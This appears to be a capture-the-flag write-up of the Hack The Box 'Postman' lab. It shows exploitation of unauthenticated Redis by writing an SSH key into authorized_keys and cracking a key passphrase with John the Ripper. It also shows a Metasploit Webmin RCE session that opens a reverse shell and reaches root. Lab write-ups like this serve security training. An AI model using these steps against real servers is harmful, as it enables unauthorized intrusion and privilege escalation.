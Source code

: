 ```yaml
---
path: "/htb-postman"
title: "Hack The Box - Postman"
date: "03/23/2020"
featuredImage: ../../images/postman.png
---
```


You start off by doing a nmap scan to see what ports are opened. This will give you an idea of what you could potentially exploit.

## NMAP Scan

```
...
PORT      STATE SERVICE    VERSION
22/tcp    open  tcpwrapped
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|_  256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
80/tcp    open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis      Redis key-value store 4.0.9
10000/tcp open  http       MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
...
```

With these result the first thing that stands out is the http server at port `80`.
This yielded nothing very useful. We can pay attention to the other http server at port `10000`.
Webmin was also a deadend (..for now)

The next available port is redis. You can use the redis-cli to connect to it. No authentication required.
`redis-cli -h 10.10.10.160`

Poking around the interwebs you can find ways to exploit a redis server.[HackTricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#get-sshcrackit)
The approach we are going with is to put a public key in the redis server and overwrite the `.ssh/authorized_keys`. This will allow us to ssh as the redis user.

(side note - I create a script that generates ssh keypair and then upload the public key to the server [SSH Redis Exploit](https://github.com/bascoe10/RedisExploit))

```
root@kali:~/HTB/Postman/RedisExploit# python ssh_exploit.py 10.10.10.160 /var/lib/redis/.ssh
Namespace(host='10.10.10.160', ssh_dir='/var/lib/redis/.ssh')
Key pairs generated
Redis flushed
public key added to redis
Home directory set
DB filename changed
Setting saved
Done
root@kali:~/HTB/Postman/RedisExploit# ssh redis@10.10.10.160 -i private.pem
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

redis@Postman:~$
```

Once you establish initial foothold. You can start looking for ways to escalate our privileges.
From the `/home` directory you can find that there is a user `Matt` and also in the `/opt` there is `id_rsa.bak`.

There is a passphrase required for the private key. For this, `JohnTheRipper` to the rescue.
In other to use `JohnTheRipper` the key has to be converted to `john` format with `ssh2john`.

The passphrase turns out to be `computer2008`. The ssh gets terminated immediately if you try to use this private key as Matt.
With the passphrase at hand you can to use it directly on the box.
Log in as `redis` user and the `su Matt`, supply the passhphrase and you should be good.

First flag down.

For the root flag you can exploit webmin 1.910 via `metasploit`

```
root@kali:~/HTB/Postman# msfconsole


Unable to handle kernel NULL pointer dereference at virtual address 0xd34db33f
EFLAGS: 00010046
eax: 00000001 ebx: f77c8c00 ecx: 00000000 edx: f77f0001
esi: 803bf014 edi: 8023c755 ebp: 80237f84 esp: 80237f60
ds: 0018   es: 0018  ss: 0018
Process Swapper (Pid: 0, process nr: 0, stackpage=80377000)


Stack: 90909090990909090990909090
       90909090990909090990909090
       90909090.90909090.90909090
       90909090.90909090.90909090
       90909090.90909090.09090900
       90909090.90909090.09090900
       ..........................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ccccccccc.................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       .................ccccccccc
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ..........................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffff..................
       ffffffff..................


Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00
Aiee, Killing Interrupt handler
Kernel panic: Attempted to kill the idle task!
In swapper task - not syncing


       =[ metasploit v5.0.76-dev                          ]
+ -- --=[ 1971 exploits - 1088 auxiliary - 339 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE


msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
lhost => tun0
msf5 exploit(linux/http/webmin_packageup_rce) > set ssl true
ssl => true
msf5 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.216:4444
[+] Session cookie: d464b6cc2a8b929cda109ff0eaaa4ec9
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.216:4444 -> 10.10.10.160:55052) at 2020-03-22 15:52:55 -0400
whoami

root
ls -al /root
...
-rw-r--r--  1 root root    33 Aug 26  2019 root.txt
```
